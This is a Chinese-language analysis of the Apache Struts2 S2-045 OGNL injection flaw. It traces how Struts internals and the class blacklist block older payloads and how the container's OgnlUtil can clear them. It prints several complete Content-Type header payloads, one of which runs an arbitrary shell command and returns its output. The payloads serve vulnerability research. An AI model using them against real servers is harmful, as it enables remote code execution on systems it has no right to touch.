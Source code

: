 # S2-045分析

在这个当中又将struts当中ognl的执行提升到一个新难度，但是前辈们还是很厉害也是成功进行了绕过，首先要知道有些什么变动

首先_memberAccess没了，因此我们不能再使用 `#_memberAccess` 来访问 ValueStack 中的 SecurityMemberAccess 对象

```java
public Object get(Object key) {
  Object result;
  if (RESERVED_KEYS.containsKey(key)) {
    if (key.equals("this")) {
      result = this.getCurrentObject();
    } else if (key.equals("root")) {
      result = this.getRoot();
    } else if (key.equals("context")) {
      result = this;
    } else if (key.equals("_traceEvaluations")) {
      result = this.getTraceEvaluations() ? Boolean.TRUE : Boolean.FALSE;
    } else if (key.equals("_lastEvaluation")) {
      result = this.getLastEvaluation();
    } else if (key.equals("_keepLastEvaluation")) {
      result = this.getKeepLastEvaluation() ? Boolean.TRUE : Boolean.FALSE;
    } else if (key.equals("_classResolver")) {
      result = this.getClassResolver();
    } else {
      if (!key.equals("_typeConverter")) {
        throw new IllegalArgumentException("unknown reserved key '" + key + "'");
      }

      result = this.getTypeConverter();
    }
  } else {
    result = this._values.get(key);
  }

  return result;
}
```

同时在struts-default.xml当中黑名单又添加了 ognl.MemberAccess 和 ognl.DefaultMemberAccess 类

```java
<constant name="struts.excludedClasses"
              value="
                java.lang.Object,
                java.lang.Runtime,
                java.lang.System,
                java.lang.Class,
                java.lang.ClassLoader,
                java.lang.Shutdown,
                java.lang.ProcessBuilder,
                ognl.OgnlContext,
                ognl.ClassResolver,
                ognl.TypeConverter,
                ognl.MemberAccess,
                ognl.DefaultMemberAccess,
                com.opensymphony.xwork2.ognl.SecurityMemberAccess,
                com.opensymphony.xwork2.ActionContext" />

    <!-- this must be valid regex, each '.' in package name must be escaped! -->
    <!-- it's more flexible but slower than simple string comparison -->
    <!-- constant name="struts.excludedPackageNamePatterns" value="^java\.lang\..*,^ognl.*,^(?!javax\.servlet\..+)(javax\..+)" / -->

    <!-- this is simpler version of the above used with string comparison -->
    <constant name="struts.excludedPackageNames" value="java.lang.,ognl,javax,freemarker.core,freemarker.template" />
```

因此之前的S2-032的payload也因此不能用了

而且阻止了所有构造函数的使用在`com.opensymphony.xwork2.ognl.SecurityMemberAccess#isClassExcluded`当中，还要求`allowStaticMethodAccess`属性为`true`才行，这样通过构造函数也无法直接执行了

```java
protected boolean isClassExcluded(Class<?> clazz) {
  if (clazz == Object.class || clazz == Class.class && !this.allowStaticMethodAccess) {
    return true;
  }
	xxxxx
```

拿到网上的payload我们进行分析

```http
Content-Type: %{(#yyds='multipart/form-data').(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.excludedClasses.clear()).(#ognlUtil.excludedPackageNames.clear()).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('open -na Calculator'))}
```

第一个是因为要求需要包含 "multipart/form-data"，但不以" multipart/" 开头，进入后面container部分

在创建根对象时调用com.opensymphony.xwork2.ognl.OgnlValueStackFactory#createValueStack

```java
public ValueStack createValueStack() {
  ValueStack stack = new OgnlValueStack(this.xworkConverter, this.compoundRootAccessor, this.textProvider, this.allowStaticMethodAccess);
  this.container.inject(stack);
  stack.getContext().put("com.opensymphony.xwork2.ActionContext.container", this.container);
  return stack;
}
```

在创建这个根对象的时候，会调用 setRoot 方法初始化它的各种属性

```java
protected void setRoot(XWorkConverter xworkConverter, CompoundRootAccessor accessor, CompoundRoot compoundRoot, boolean allowStaticMethodAccess) {
  this.root = compoundRoot;
  this.securityMemberAccess = new SecurityMemberAccess(allowStaticMethodAccess);
  this.context = Ognl.createDefaultContext(this.root, accessor, new OgnlTypeConverterWrapper(xworkConverter), this.securityMemberAccess);
  this.context.put("com.opensymphony.xwork2.util.ValueStack.ValueStack", this);
  Ognl.setClassResolver(this.context, accessor);
  ((OgnlContext)this.context).setTraceEvaluations(false);
  ((OgnlContext)this.context).setKeepLastEvaluation(false);
}
```

而这个securityMemberAccess也通过Ognl.createDefaultContext设置到了OgnlContext，因此我们要想更改 OgnlValueStack.securityMemberAccess，其实就可以直接修改OgnlContext._memberAccess即可

```java
public static Map addDefaultContext(Object root, ClassResolver classResolver, TypeConverter converter, MemberAccess memberAccess, Map context) {
  OgnlContext result;
  if (!(context instanceof OgnlContext)) {
    result = new OgnlContext();
    result.setValues(context);
  } else {
    result = (OgnlContext)context;
  }

  if (classResolver != null) {
    result.setClassResolver(classResolver);
  }

  if (converter != null) {
    result.setTypeConverter(converter);
  }

  if (memberAccess != null) {
    result.setMemberAccess(memberAccess);
  }

  result.setRoot(root);
  return result;
}

public void setMemberAccess(MemberAccess value) {
  if (value == null) {
    throw new IllegalArgumentException("cannot set MemberAccess to null");
  } else {
    this._memberAccess = value;
  }
}
```

之后通过container 进行对象的注入，并将 container 放入 context 中，在这个过程当中也将黑名单通过com.opensymphony.xwork2.ognl.OgnlValueStack#setOgnlUtil加载进去，而且`OgnlContext`中，同时可以看到`this.ognlUtil = ognlUtil`为对象的引用，因此全局也都共享一个实例

```java
@Inject
public void setOgnlUtil(OgnlUtil ognlUtil) {
  this.ognlUtil = ognlUtil;
  this.securityMemberAccess.setExcludedClasses(ognlUtil.getExcludedClasses());
  this.securityMemberAccess.setExcludedPackageNamePatterns(ognlUtil.getExcludedPackageNamePatterns());
  this.securityMemberAccess.setExcludedPackageNames(ognlUtil.getExcludedPackageNames());
}
```

因此payload的获取也很明确了

获得 Container 对象后，使用 `getInstance()` 方法获取之前注入的OgnlUtil对象，而通过这个OgnlUtil工具类我们就可以清除SecurityMemberAccess当中的一些限制性属性，从而实现绕过限制执行命令

有回显

```http
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

当然也不一定非要用clear方法，毕竟有set方法

```java
%{(#yyds='multipart/form-data').(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.excludedClasses='').(#ognlUtil.excludedPackageNames='').(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('open -na Calculator'))}
```
